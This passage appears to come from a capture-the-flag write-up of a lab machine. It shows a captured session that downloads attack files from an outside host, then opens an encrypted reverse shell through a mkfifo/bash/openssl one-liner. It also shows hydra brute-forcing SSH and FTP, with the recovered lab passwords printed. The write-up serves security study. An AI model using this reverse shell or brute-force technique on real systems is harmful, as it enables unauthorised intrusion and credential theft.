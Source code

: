     ls -la
    total 8
    drwxrwxrwt  2 root    root      4096 Dec 10 21:52 .
    drwxr-xr-x 22 root    root      4096 Dec  4 21:20 ..
    prw-r--r--  1 ib01c01 customers    0 Dec 10 21:52 osfiftm
    wget 10.0.2.19/Makefile
    --2018-12-10 21:53:00--  http://10.0.2.19/Makefile
    Connecting to 10.0.2.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 154 [application/octet-stream]
    Saving to: 'Makefile'
    
         0K                                                       100% 19.0M=0s
    
    2018-12-10 21:53:00 (19.0 MB/s) - 'Makefile' saved [154/154]
    
    wget 10.0.2.19/root.c
    --2018-12-10 21:53:20--  http://10.0.2.19/root.c
    Connecting to 10.0.2.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3094 (3.0K) [text/plain]
    Saving to: 'root.c'
    
         0K ...                                                   100%  318M=0s
    
    2018-12-10 21:53:20 (318 MB/s) - 'root.c' saved [3094/3094]
    
    mkfifo /tmp/rH7dQR; /bin/bash -i 2>&1 < /tmp/rH7dQR | openssl s_client -quiet -connect 10.0.2.19:4445 > /tmp/rH7dQR; rm /tmp/rH7dQR
    depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
    verify error:num=18:self signed certificate
    verify return:1
    depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
    verify return:1
    

Streams 27 and 28 are the two `wget` requests for `Makefile` and `root.c`.
`Makefile` is a standard Makefile, but `root.c` is interesting. I’ll come back
to that later. Stream 29 is an encrypted connection, on 4445, so the `openssl`
command from the end of 26.

### FTP Creds Check

The email said one pair of creds would work, but I want to check all the creds
I have here. I’ll use `hydra` to check them for ssh and ftp.

    
    
    root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ssh
    
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
    [DATA] attacking ssh://10.10.10.155:22/
    1 of 1 target completed, 0 valid passwords found
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:23:50
    root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ftp
    
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
    [DATA] attacking ftp://10.10.10.155:21/
    [21][ftp] host: 10.10.10.155   login: ib01c01   password: GetYouAH4t!
    [21][ftp] host: 10.10.10.155   login: ib01c03   password: Thi$sh1tIsN0tGut
    [21][ftp] host: 10.10.10.155   login: ib01ftp   password: YhgRt56_Ta
    1 of 1 target successfully completed, 3 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:24:09
    